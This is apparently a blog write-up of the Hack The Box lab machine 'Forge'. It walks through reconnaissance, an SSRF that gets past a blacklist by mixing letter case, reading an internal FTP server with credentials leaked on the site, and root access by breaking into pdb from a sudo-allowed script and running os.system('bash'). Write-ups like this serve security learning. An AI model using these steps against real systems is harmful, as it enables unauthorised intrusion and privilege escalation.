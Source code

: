 ```yaml
---
title: Forge - Medium
categories: htb SSRF 
excerpt: | 
  Linux machine with a vulnerable page. 

feature_text: |
  ## Forge - Medium
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
nmap ip:
``` 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:78:65:66:29:e4:87:6b:3c:cc:b4:3a:d2:57:20:ac (RSA)
|   256 79:df:3a:f1:fe:87:4a:57:b0:fd:4e:d0:54:c6:28:d9 (ECDSA)
|_  256 b0:58:11:40:6d:8c:bd:c5:72:aa:83:08:c5:51:fb:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Gallery
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Let's examine what type of page is with `whatweb` to see more information about it. 
Now we can analize the main page that it is running in http://10.10.11.111 and we will see that it is necesary to add host forge.htb in /etc/hosts.

There can be others subdomain so use `gobuster` to find all of them.

> admin.forge.htb

This subdomain requires to be as a localhots request but you can use the `upload from url` option, which is vulnerable to *SSRF (Server Side Request Forgery)* because you can do a request as a localhost. `Request: http://aDmIn.FoRgE.HtB`. _There are a blacklist input that you can pass playing with capital letters_.

Get the respond with `curl -s -X GET "..."`. There is another section:
> <a href="/announcements">Announcements</a>

Let's in and get the respond again:
```
<li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
<li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
<li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
```
Ftp is open but it seems to be filtered with firewall. So it's possible to get files with the SSRF.
```
http://aDmIn.FoRgE.HtB/upload?u=ftp://user:heightofsecurity123!@FoRgE.HtB
```
> drwxr-xr-x    3 1000     1000         4096 Aug 04  2021 snap
-rw-r-----    1 0        1000           33 May 07 19:39 user.txt

There we go. We can see the private key (id\_rsa) of the user to connect with ssh.

### Privilege scalation
See the privilege of the user `sudo -l` and there is one aplication that you can run as ALL users. Take a look of how it works and then:
1. Get a new ssh conection.
2. Run as sudo this aplication.
3. Establish a new request with nc: `nc localhost {port}`
4. Submit the password
5. Generate a new interrumption (p.e enter a string instead of int)
6. pdb break point will be generate. Import os and execute: os.system('bash')
